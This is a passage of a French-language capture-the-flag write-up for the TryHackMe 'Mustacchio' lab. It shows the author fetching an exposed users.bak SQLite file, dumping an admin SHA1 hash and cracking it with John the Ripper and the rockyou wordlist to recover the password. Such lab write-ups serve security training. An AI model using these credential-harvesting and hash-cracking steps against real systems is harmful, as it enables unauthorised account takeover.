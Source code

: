 Dans custom il y a un autre répertoire js avec dedans comme fichier users.bak.  

```bash
tim@kali:~/Bureau/tryhackme$ wget http://mustacchio.thm/custom/js/users.bak -nv
2021-08-16 13:40:52 URL:http://mustacchio.thm/custom/js/users.bak [8192/8192] -> "users.bak" [1]

tim@kali:~/Bureau/tryhackme$ file users.bak
users.bak: SQLite 3.x database, last written using SQLite version 3034001

tim@kali:~/Bureau/tryhackme$ sqlite3 users.bak 
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
sqlite> .dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE users(username text NOT NULL, password text NOT NULL);
INSERT INTO users VALUES('admin','1868e36a6d2b17d4c2745f1659433a54d4bc5f4b');
COMMIT;

```

On récupère le fichier.  
On l'identifie, c'est un fichier SQLite.   
On lit contenu et on trouve un nom et un password sous forme de hash.  

```bash
tim@kali:~/Bureau/tryhackme$ echo '1868e36a6d2b17d4c2745f1659433a54d4bc5f4b' > hash

tim@kali:~/Bureau/tryhackme$ john hash -w=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "has-160"
Use the "--format=has-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
bulldog19        (?)
1g 0:00:00:00 DONE (2021-08-16 13:45) 16.66g/s 11401Kp/s 11401Kc/s 11401KC/s bulldog27..bullcrap1
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed
```

On crack le hash avec john the ripper.    

On a maintenant des identifiants : 
Non d'utilisateur : admin    
Mot de passe : bulldog19    
